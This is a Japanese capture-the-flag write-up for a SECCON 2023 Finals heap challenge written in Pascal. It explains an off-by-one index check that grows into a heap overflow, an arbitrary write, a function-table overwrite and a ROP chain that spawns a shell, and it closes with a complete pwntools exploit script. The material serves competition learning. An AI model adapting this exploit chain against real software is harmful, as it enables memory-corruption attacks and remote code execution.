

# SECCON CTF 2023 Finals `Datastore2 [pwn]` writeup

## 問題
This is how babyheap challenges would have looked like in 1970s.

`nc babyheap-1970.dom.seccon.games 9999`

実行バイナリとPascalで書かれたソースコード、Dockerfileが配布される。

```pascal
(* Free Pascal Compiler version 3.2.2 *)
program babyheap;
var
   g_size : array[0..3] of integer;
   g_arr  : array[0..3] of array of integer;

(* Utility functions *)
function get_id(): integer;
var
   id : integer;
begin
   write('id: ');
   flush(output);
   read(id);
   if (id < 0) or (id > 3) then begin
      writeln('Invalid ID');
      halt(1);
   end;
   get_id := id;
end;

function get_index(id : integer): integer;
var
   index : integer;
begin
   write('index: ');
   flush(output);
   read(index);
   if (index < 0) or (index > g_size[id]) then begin
      writeln('Index out of range');
      halt(1);
   end;
   get_index := index;
end;

function get_size(): integer;
var
   size : integer;
begin
   write('size: ');
   flush(output);
   read(size);
   if (size <= 0) or (size >= 100) then begin
      writeln('Invalid size');
      halt(1);
   end;
   get_size := size;
end;

(* Core functions *)
procedure realloc();
var
   id : integer;
begin
   id := get_id();
   g_size[id] := get_size();
   setLength(g_arr[id], g_size[id]);
end;

procedure edit();
var
   id    : integer;
   index : integer;
begin
   id := get_id();
   index := get_index(id);
   write('value: ');
   flush(output);
   read(g_arr[id][index]);
end;

(* Entry point *)
var
   id     : integer;
   choice : integer;
begin
   for id := 0 to 3 do begin
      g_size[id] := 1;
      setLength(g_arr[id], g_size[id]);
   end;
   writeln('1. Realloc array');
   writeln('2. Edit array');
   repeat
      write('> ');
      flush(output);
      read(choice);
      case choice of
        1 : realloc();
        2 : edit();
      else
         writeln('Bye \(^o^)/');
         break;
      end;
   until false;
end.
```


## 解法
### 事前調査
Pascalなる言語で書かれたheap問。
この問題に取り組むまで私は出会ったことのない言語だった。

調べてみると、`array[0..3]`と宣言することでindex=0~3の配列ができたり、integer型が2 bytesだったりで普段解いてるcとは勝手がだいぶ違いそう。

ソースコードは長くないが、慣れない言語故にあまり読む気になれない。
こういう時は動的解析ガチャガチャに限る。

プログラムの動作としては

+ 指定したサイズで2 bytes整数の配列を動的に割り当て
+ インデックスを指定して割り当てられた配列に整数を入力

の2つの操作で完結している。
割り当てらる動的配列はid=0~3の4つまで。

どこからどのようにメモリが取られるのか調査するために適当な値を入力してみる。

```
id: 0
index: 0
value: 12345

pwndbg> search -2 12345
Searching for value: b'90'
[anon_7ffff7fea] 0x7ffff7fea050 0x3039 /* '90' */
```

[anon_7ffff7fea]なる領域がマッピングされているので見てみる

```
pwndbg> x/50gz 0x7ffff7fea000
0x7ffff7fea000: 0x0000000000008000      0x0000000000000000
0x7ffff7fea010: 0x0000000000000000      0x00007ffff7ff2000
0x7ffff7fea020: 0x0000000000000001      0x00000000004309c8
0x7ffff7fea030: 0x0000000000000000      0x00000000000380e1
0x7ffff7fea040: 0x0000000000000001      0x0000000000000062
0x7ffff7fea050: 0x0000000000003039      0x0000000000000000
0x7ffff7fea060: 0x0000000000000000      0x0000000000000000
0x7ffff7fea070: 0x0000000000000000      0x0000000000000000
0x7ffff7fea080: 0x0000000000000000      0x0000000000000000
0x7ffff7fea090: 0x0000000000000000      0x0000000000000000
0x7ffff7fea0a0: 0x0000000000000000      0x0000000000000000
0x7ffff7fea0b0: 0x0000000000000000      0x0000000000000000
0x7ffff7fea0c0: 0x0000000000000000      0x0000000000000000
0x7ffff7fea0d0: 0x0000000000000000      0x0000000000000000
0x7ffff7fea0e0: 0x0000000000000000      0x0000000000000000
0x7ffff7fea0f0: 0x0000000000000000      0x0000000000000000
0x7ffff7fea100: 0x0000000000000000      0x0000000000000000
0x7ffff7fea110: 0x0000000000000000      0x00000000001180e1
0x7ffff7fea120: 0x00007ffff7fea1f8      0x0000000000000000
0x7ffff7fea130: 0x0000000000000000      0x0000000000000000
0x7ffff7fea140: 0x0000000000000000      0x0000000000000000
0x7ffff7fea150: 0x0000000000000000      0x0000000000000000
0x7ffff7fea160: 0x0000000000000000      0x0000000000000000
0x7ffff7fea170: 0x0000000000000000      0x0000000000000000
0x7ffff7fea180: 0x0000000000000000      0x0000000000000000
pwndbg>
0x7ffff7fea190: 0x0000000000000000      0x0000000000000000
0x7ffff7fea1a0: 0x0000000000000000      0x0000000000000000
0x7ffff7fea1b0: 0x0000000000000000      0x0000000000000000
0x7ffff7fea1c0: 0x0000000000000000      0x0000000000000000
0x7ffff7fea1d0: 0x0000000000000000      0x0000000000000000
0x7ffff7fea1e0: 0x0000000000000000      0x0000000000000000
0x7ffff7fea1f0: 0x0000000000000000      0x00000000001f80e1
0x7ffff7fea200: 0x00007ffff7fea2d8      0x00007ffff7fea118
0x7ffff7fea210: 0x0000000000000000      0x0000000000000000
0x7ffff7fea220: 0x0000000000000000      0x0000000000000000
0x7ffff7fea230: 0x0000000000000000      0x0000000000000000
0x7ffff7fea240: 0x0000000000000000      0x0000000000000000
0x7ffff7fea250: 0x0000000000000000      0x0000000000000000
0x7ffff7fea260: 0x0000000000000000      0x0000000000000000
0x7ffff7fea270: 0x0000000000000000      0x0000000000000000
0x7ffff7fea280: 0x0000000000000000      0x0000000000000000
0x7ffff7fea290: 0x0000000000000000      0x0000000000000000
0x7ffff7fea2a0: 0x0000000000000000      0x0000000000000000
0x7ffff7fea2b0: 0x0000000000000000      0x0000000000000000
0x7ffff7fea2c0: 0x0000000000000000      0x0000000000000000
0x7ffff7fea2d0: 0x0000000000000000      0x00000000002d80e1
0x7ffff7fea2e0: 0x00007ffff7fea3b8      0x00007ffff7fea1f8
0x7ffff7fea2f0: 0x0000000000000000      0x0000000000000000
0x7ffff7fea300: 0x0000000000000000      0x0000000000000000
0x7ffff7fea310: 0x0000000000000000      0x0000000000000000
```

同じサイズの未使用チャンク？が双方向リストで管理されているようだ。
一度だけ`realloc()`の操作をしているので一番上のチャンクだけが取り出されている。

Out of boundsの脆弱性などを使って未使用チャンクのリンクリストを書き換えればArbitrary Address Write (AAW)できそう、などと考えていると`edit()`時のインデックスのvalidation checkが誤っていることに気づく。

`realloc()`では入力したサイズに合わせて`setLength(g_arr[id], g_size[id])`で動的配列を取ってくる。
`SetLength()`の動作を調べると

+ 第一引数がNULL(初めてメモリを割り当てる)のとき第二引数で指定されたサイズで第一引数の型の配列を作成。管理値としてチャンクの頭に最後インデックスを持たせる。
+ 二回目以降の場合
  + 指定されたサイズが現在のサイズより小さい場合はインデックスのみ変更して現在のチャンクをそのまま使う。
  + 指定されたサイズが現在のサイズより大きい場合、必要に応じてチャンクを割り当て直す。

といった感じであった。

size=3を指定すればindex=0~2の長さ3の動的配列が取れる。
これに対して`edit()`ではindex=0~3の入力を許容している。
冒頭で触れた通り、`array[0..3]`と静的配列を宣言した際はindex=0~3の長さ3の配列が取れるので、これらを混同したバグが埋め込まれているようだ。
マイナー言語でこういったバグを自然に埋め込めるのは流石の一言である。

### heap? overflow
out of boundsでinteger１つ分(2 bytes)隣のチャンクにはみ出して書き込めることが分かった。
チャンクの頭にはチャンクサイズが書かれているので

1. サイズの小さい隣り合ったチャンクA, Bを取る。
2. チャンクAでout of boundsを引き起こしてチャンクBのサイズを大きく書き換える。
3. `realloc()`でチャンクBのサイズを大きい値に変更する。チャンクサイズが大きな値で書き換えられているため、より大きなチャンクが再割り当てされずに配列の長さだけが大きく変更される。
4. チャンクBでheap? overflowを起こして未使用チャンクのリンクリストを書き換えて`realloc()`で任意のアドレスを取り出せるようにする。

とすればAAWが手に入る。

### function table overwrite -> ROP
<sup>本番中ここまではスムーズに来れたが、どこに何を書けばいいのか長い時間迷った。</sup>

PIE無効だったのでGOTのような都合のよい関数テーブルがバイナリのwritable領域にないか調べることに。
それらしきものが見つかる

```
pwndbg> tele 0x42e9a0
00:0000│  0x42e9a0 —▸ 0x42ebec ◂— 0x0
01:0008│  0x42e9a8 —▸ 0x41bec0 ◂— push rbx
02:0010│  0x42e9b0 —▸ 0x41be60 ◂— push rbx
03:0018│  0x42e9b8 —▸ 0x41be60 ◂— push rbx
04:0020│  0x42e9c0 —▸ 0x41be10 ◂— push rbx
05:0028│  0x42e9c8 ◂— 0x0
... ↓     2 skipped
```

`0x42e9b0`を書き換えてプログラムを終了するとeipを奪うことができた。
`exit()`系でトリガーされる関数のようだ。



これをmainの頭に書き換えてret2mainすることなどを考えて時間を費やしてしまったが、最終的なexploitではプログラムのこの部分に飛ばすことにした。

```pascal
function get_id(): integer;
var
   id : integer;
begin
   write('id: ');
   flush(output);
   read(id);
   if (id < 0) or (id > 3) then begin
      writeln('Invalid ID');
      halt(1);
   end;
   get_id := id; (*<- here*)
end;
```

これにて動的配列の`id`を尋ねられた時に不正な値を入力して`halt(1)`が呼ばれても、`get_id := id;`にジャンプして復帰できる。
関数のネストが違うためうまく復帰できないのでは？と思われるかもしれないが、関数呼び出し時に`rbp`を積んでいるか否か、`leave; ret`と`ret`の差異で都合よくいってくれる。

不正な`id`を入力して嬉しいことは、動的配列へのポインタを持っているグローバル変数`g_arr[]`で範囲外参照をすることで、`g_arr[]`周辺に配置されたポインタめがけてAAWができる点である。

関数テーブルを探してwritable領域を眺めていた時に、mainからのリターンアドレスが置かれている周辺のstack上のアドレスを見つけていた。

しかしながらこのままでは整数1つすら書き込むことができない。
stackのアドレスが入っているメモリを参照するための`id`を`st_id`とすると、各配列のサイズを管理してるグローバル変数`g_size[st_id]`にあたるメモリが0を記録している。
そこでまずは`g_size[st_id]`にあたるメモリを`g_arr[g_size_st_id]`で参照して`realloc()`する。何かしらのチャンクのアドレスが`g_size[st_id]`に入ることで当該動的配列の大きさを改ざんすることができる。

### Exploit
`g_size[st_id]`に入る値がランダムで、ROP chainを2 bytesずつ入力した際の長さに満たない場合や負の数が入った場合は失敗する。
体感40 %くらいは成功する。

```py
from pwn import *
import sys

elf = ELF("chall")
# libc = ELF("libc.so.6")

io = process(elf.path)
# io = remote('babyheap-1970.dom.seccon.games', 9999)

context.log_level = 'info'
context.arch = 'amd64'
context.terminal = ['tmux', 'splitw', '-h', '-F' '#{pane_pid}', '-P']

gdb.attach(io)

# - define functions - #
def realloc(id: int, sz: int):
	io.sendlineafter(b"> ", b"1")
	io.sendlineafter(b"id: ", str(id).encode())
	io.sendlineafter(b"size: ", str(sz).encode())

def edit(id: int, idx: int, val: int):
	io.sendlineafter(b"> ", b"2")
	io.sendlineafter(b"id: ", str(id).encode())
	io.sendlineafter(b"index: ", str(idx).encode())
	io.sendlineafter(b"value: ", str(val).encode())


# - out of bounds -> heap overflow - #
realloc(0, 36)
realloc(1, 36)
edit(0, 36, 0x80f1)
realloc(1, 99)

# - write 0x40117c @ 0x429b0
edit(1, 43, 0x0)
edit(1, 42, 0x0)
edit(1, 41, 0x42)
edit(1, 40, 0xe998)

realloc(2, 36)
realloc(3, 36) # <- func. table

edit(3, 3, 0x0)
edit(3, 2, 0x0)
edit(3, 1, 0x40)
edit(3, 0, 0x117c)

# - set "/bin/sh\x00" - #
edit(3, 7, u16(b"h\x00"))
edit(3, 6, u16(b"/s"))
edit(3, 5, u16(b"in"))
edit(3, 4, u16(b"/b"))


realloc(159, 1) # overwrite g_size[644]

# - ROP chain injection - #
syscall_ret = 0x004018e7
pop_rdi_pop4times_ret = 0x0041f48a
pop_rsi_pop3_ret = 0x0042374e
pop_rax_ret = 0x00413563
binsh_addr = 0x42e9b8

rop_chain = p64(pop_rdi_pop4times_ret)
rop_chain += p64(binsh_addr)
rop_chain += p64(0x0) * 4
rop_chain += p64(pop_rsi_pop3_ret)
rop_chain += p64(0x0) * 4
rop_chain += p64(pop_rax_ret)
rop_chain += p64(0x3b)
rop_chain += p64(syscall_ret)

log.info(f'ROP chain: {len(rop_chain)} bytes')

for i in range(len(rop_chain)//2):
	edit(644, i, u16(rop_chain[2*i:2*i+2]))


# Gooooooo!!!!!
io.sendlineafter(b">", b"-1")

io.interactive()
```

オンサイト会場でFLAGを取れて良かった。